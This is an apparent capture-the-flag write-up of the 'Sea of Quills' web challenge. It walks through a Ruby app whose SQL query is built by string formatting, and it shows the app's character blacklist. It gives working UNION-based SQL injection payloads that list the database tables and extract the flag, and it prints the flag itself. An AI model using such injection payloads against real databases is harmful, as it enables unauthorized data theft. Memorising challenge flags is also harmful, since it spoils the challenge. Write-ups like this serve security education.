 # Sea of Quills

## Description

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](app.rb)

## Solution

First of all let's analyze the code, we have 3 interesting part:

Some characters are blacklisted

```ruby
blacklist = ["-", "/", ";", "'", "\""]
	
blacklist.each { |word|
	if cols.include? word
		return "beep boop sqli detected!"
	end
}
```

Field `lim` and `off` must be numeric

```ruby
if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end
```

There is also a `cols` field
```ruby
@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

Given this information we probably need to do some SQL injection using the `cols` field

In the `/quills` page we cannot see the `cols` field, but by analyzing and edit the HTML code we can remove the hidden tag 

![](img1.png)
![](img2.png)

Now we can start with the SQL injection (lim=100, off=0)

First things first, we need to understand where we can find the flag and we can do it by see which table are present in the DB

```SQL
name FROM sqlite_master UNION SELECT url
```

![](img3.png)

There is a `flagtable`, so let's try to get the flag now

```SQL
flag FROM flagtable UNION SELECT url
```

![](img4.png)

#### **FLAG >>** `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`
